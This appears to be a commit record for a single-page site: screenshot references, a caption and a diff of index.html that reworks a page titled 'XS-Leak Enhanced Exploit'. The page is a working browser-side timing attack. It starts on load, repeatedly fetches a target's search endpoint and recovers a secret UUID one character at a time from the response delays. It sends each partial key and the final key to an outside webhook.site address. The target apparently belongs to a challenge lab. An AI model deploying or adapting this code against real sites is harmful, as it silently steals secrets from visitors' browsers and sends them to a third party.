

Before and after one commit to rffff3c/dedede, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,22 +2,29 @@
 <html lang="ar">
 <head>
     <meta charset="UTF-8">
-    <title>HackerAI - XS-Leak Exploit</title>
+    <title>HackerAI - XS-Leak Enhanced Exploit</title>
     <style>
-        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #1a1a1a; color: #00ff00; padding: 20px; }
-        .container { border: 1px solid #333; padding: 20px; border-radius: 8px; background-color: #222; }
-        #key-display { font-size: 24px; color: #ff00ff; word-break: break-all; margin: 10px 0; }
-        .status { color: #aaa; }
-        .log { background: #000; padding: 10px; height: 300px; overflow-y: scroll; font-size: 12px; border: 1px solid #444; margin-top: 10px; }
+        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #0f0f0f; color: #00ff41; padding: 20px; line-height: 1.6; }
+        .container { border: 2px solid #00ff41; padding: 20px; border-radius: 10px; background-color: #1a1a1a; box-shadow: 0 0 15px rgba(0, 255, 65, 0.2); }
+        #key-display { font-family: 'Courier New', monospace; font-size: 28px; color: #ff00ff; word-break: break-all; margin: 20px 0; padding: 10px; border: 1px dashed #444; text-align: center; }
+        .status-bar { border-bottom: 1px solid #333; padding-bottom: 10px; margin-bottom: 20px; display: flex; justify-content: space-between; }
+        .log { background: #000; padding: 15px; height: 350px; overflow-y: scroll; font-size: 13px; border: 1px solid #333; color: #00d0ff; }
+        .highlight { color: #ffff00; font-weight: bold; }
+        .error { color: #ff4444; }
     </style>
 </head>
 <body>
 
 <div class="container">
-    <h1>XS-Leak Timing Attack (UUID)</h1>
-    <p class="status">الحالة: <span id="status">جاهز للبدء...</span></p>
-    <div>المفتاح المستخرج حالياً:</div>
-    <div id="key-display">جاري البدء...</div>
+    <div class="status-bar">
+        <span>الحالة: <span id="status" style="color: gold;">في انتظار البدء...</span></span>
+        <span>الهدف: <code id="target-url"></code></span>
+    </div>
+
+    <h1>مستخرج UUID عبر XS-Leak</h1>
+
+    <div>المفتاح المستخرج (UUID):</div>
+    <div id="key-display">-------- - ---- - ---- - ---- - ------------</div>
 
     <div class="log" id="log"></div>
 </div>
@@ -25,78 +32,90 @@
 <script>
     const TARGET_BASE = "http://ptl-41f731a5e034-c2c22805e34a.libcurl.me/search?search=";
     const WEBHOOK_URL = "https://webhook.site/2a326388-6705-466d-9454-bd91d189b738";
-    const CHARSET = "0123456789-abcdef";
-    const THRESHOLD = 3000; // الحد الفاصل الذي طلبته (3 ثوانٍ)
+    const CHARSET = "0123456789abcdef";
+    const THRESHOLD = 500; // تم تقليل العتبة لتكون أكثر حساسية (قابلة للتعديل بناءً على استجابة الخادم)
 
     let leakedKey = "";
     const logElement = document.getElementById('log');
+    document.getElementById('target-url').innerText = TARGET_BASE;
 
-    function log(msg) {
+    function log(msg, type = '') {
         const div = document.createElement('div');
+        if (type === 'found') div.className = 'highlight';
+        if (type === 'error') div.className = 'error';
         div.textContent = `[${new Date().toLocaleTimeString()}] ${msg}`;
         logElement.appendChild(div);
         logElement.scrollTop = logElement.scrollHeight;
     }
 
     async function checkChar(testKey) {
-        // نستخدم caret (^) للتأكد من مطابقة بداية السلسلة
-        const url = `${TARGET_BASE}${testKey}^&cb=${Math.random()}`;
+        // نستخدم النجمة أو الـ caret بناءً على سلوك الخادم المستهدف
+        const url = `${TARGET_BASE}${testKey}&_cb=${Date.now()}`;
         const start = performance.now();
 
         try {
-            // استخدام fetch مع no-cors لتجنب مشاكل السياسات الأمنية للمتصفح
-            await fetch(url, { mode: 'no-cors', cache: 'no-cache' });
+            // استخدام fetch مع كاش معطل تماماً
+            await fetch(url, { mode: 'no-cors', cache: 'no-store' });
         } catch (e) {
-            // الخطأ متوقع بسبب CORS ولكن التوقيت لا يتأثر
+            // تجاهل خطأ CORS
         }
 
         return performance.now() - start;
     }
 
     async function startExploit() {
-        log("بدء الهجوم على النطاق المستهدف...");
+        log("بدء الهجوم... جاري تحليل استجابة الخادم.");
         document.getElementById("status").innerText = "جاري الاستخراج...";
 
-        // طول الـ UUID هو 36 حرفاً (بما في ذلك الشرطات)
         for (let i = 0; i < 36; i++) {
+            // التحقق مما إذا كان الموضع الحالي هو مكان شرطة في الـ UUID
+            if (i === 8 || i === 13 || i === 18 || i === 23) {
+                leakedKey += "-";
+                document.getElementById("key-display").innerText = leakedKey;
+                log(`تخطي الموضع ${i}: إضافة شرطة تلقائياً.`);
+                continue;
+            }
+
             let foundInThisRound = false;
-
-            // إذا كان الحرف الحالي هو موضع شرطة في UUID (اختياري للتحسين)
-            // if (i === 8 || i === 13 || i === 18 || i === 23) { ... }
 
             for (let char of CHARSET) {
                 const currentTry = leakedKey + char;
-                log(`تجربة: ${currentTry}...`);
+                log(`فحص الحرف: ${char} في المسار: ${currentTry}`);
 
-                const duration = await checkChar(currentTry);
-                log(`الوقت المستغرق: ${duration.toFixed(2)}ms`);
+                // نقوم بالقياس مرتين لأخذ المتوسط وتقليل الضوضاء (Noise)
+                const d1 = await checkChar(currentTry);
+                const d2 = await checkChar(currentTry);
+                const avgDuration = (d1 + d2) / 2;
 
-                if (duration >= THRESHOLD) {
+                if (avgDuration >= THRESHOLD) {
                     leakedKey += char;
                     document.getElementById("key-display").innerText = leakedKey;
-                    log(`*** تم العثور على حرف: ${char} ***`);
+                    log(`*** تم العثور على تطابق: ${char} (الوقت: ${avgDuration.toFixed(2)}ms) ***`, 'found');
 
-                    // إرسال الحرف المكتشف إلى الـ Webhook الخاص بك
-                    fetch(`${WEBHOOK_URL}?found=${leakedKey}&duration=${duration.toFixed(2)}`);
+                    // إرسال التحديث للـ Webhook
+                    fetch(`${WEBHOOK_URL}?current=${leakedKey}`);
 
                     foundInThisRound = true;
-                    break; // انتقل للحرف التالي في الـ UUID
+                    break;
                 }
             }
 
             if (!foundInThisRound) {
-                log("لم يتم العثور على مطابقة في هذه الدورة، قد يكون هناك خلل في التوقيت.");
-                // يمكن إضافة منطق لإعادة المحاولة هنا إذا لزم الأمر
+                log(`تحذير: لم يتم العثور على حرف للموضع ${i}. قد تحتاج لتقليل الـ THRESHOLD.`, 'error');
+                // خيار: يمكن إضافة "حرف افتراضي" أو إعادة المحاولة هنا.
             }
         }
 
-        log("انتهى الهجوم. المفتاح الكامل: " + leakedKey);
-        document.getElementById("status").innerText = "اكتمل الهجوم!";
-        fetch(`${WEBHOOK_URL}?final_key=${leakedKey}`);
+        log("اكتمل استخراج المفتاح: " + leakedKey, 'found');
+        document.getElementById("status").innerText = "اكتمل الهجوم بنجاح!";
+        document.getElementById("status").style.color = "#00ff41";
+        fetch(`${WEBHOOK_URL}?final_uuid=${leakedKey}`);
     }
 
-    // تأخير البدء لثانية واحدة لضمان استقرار المتصفح
-    setTimeout(startExploit, 1000);
+    // تأخير البدء لضمان تحميل الصفحة واستقرار المتصفح
+    window.onload = () => {
+        setTimeout(startExploit, 2000);
+    };
 </script>
 
 </body>
```
